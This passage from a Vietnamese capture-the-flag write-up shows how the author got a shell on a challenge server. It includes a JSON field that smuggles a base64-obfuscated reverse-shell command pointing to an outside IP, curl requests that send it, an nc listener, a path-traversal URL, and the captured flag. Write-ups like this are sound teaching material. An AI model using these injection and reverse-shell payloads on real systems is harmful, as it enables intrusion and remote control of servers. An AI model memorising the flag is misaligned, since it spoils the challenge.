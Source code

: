     ```json
    {
        "dir" : "rev",
        "name" : "\necho \"c2ggLWkgPiYgL2Rldi90Y3AvMzQuOTIuMTUzLjE2MS84ODk5IDA+JjE=\" | base64 -d | bash\n",
        "command_log" : "rev",
        "url" : "http://localhost:8888/"
    }
    ```

    ```shell
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "rev","name" : "\necho \"c2ggLWkgPiYgL2Rldi90Y3AvMzQuOTIuMTUzLjE2MS84ODk5IDA+JjE=\" | base64 -d | bash\n","command_log" : "rev","url" : "http://localhost:8888/"}'
    ```

- Gửi đi, và trước khi đến với lần request thứ 2, mình phải tạo một listener trên máy của mình đã (thực ra là VPS mình mượn của một người bạn xứ cảng):

    ```shell
    nc -lvnp 8899
    ```

    ![listener](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP201_9.png)

- Giờ để listener ở đó, ta quay lại với request thứ 2, request để chạy revshell:

    ```json
    {
        "dir" : "rev_tcp",
        "name" : "rev_tcp.sh",
        "command_log" : "rev",
        "url" : "http://localhost:8888/getData?f=/fus/data/../logs/rev.txt"
    }
    ```

    ```shell
    curl -X GET http://139.180.208.121:8001/runScript -H 'Content-Type: application/json' -d '{"dir" : "rev_tcp","name" : "rev_tcp.sh","command_log" : "rev","url" : "http://localhost:8888/getData?f=/fus/data/../logs/rev.txt"}'
    ```

- Và gửi đi, rồi quay lại listener:

    ![revshell](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP201_10.png)

- Vậy là ta đã mở được reverse shell trên server

- Bây giờ chỉ cần tiến hành [leo thang đặc quyền](https://viblo.asia/p/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-1-using-suid-bit-QpmlexgrZrd) thôi:

    ![done](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP201_11.png)

- Ta có flag: `"FUSec{a9595511e650bb0ff367d8144818802b}"`

> Cảm ơn anh Khoa và anh T giấu tên (không lừa) đã luôn hỗ trợ, đấm mồm thằng em để em có thể giải được bài này

> Mình cũng xin cảm ơn người bạn đến từ đất cảng Mai Kim Long, mặc dù chỉ quen biết qua mạng xã hội nhưng vẫn dám cho mình mượn tài khoản GCP để làm bài này, thanks bro!
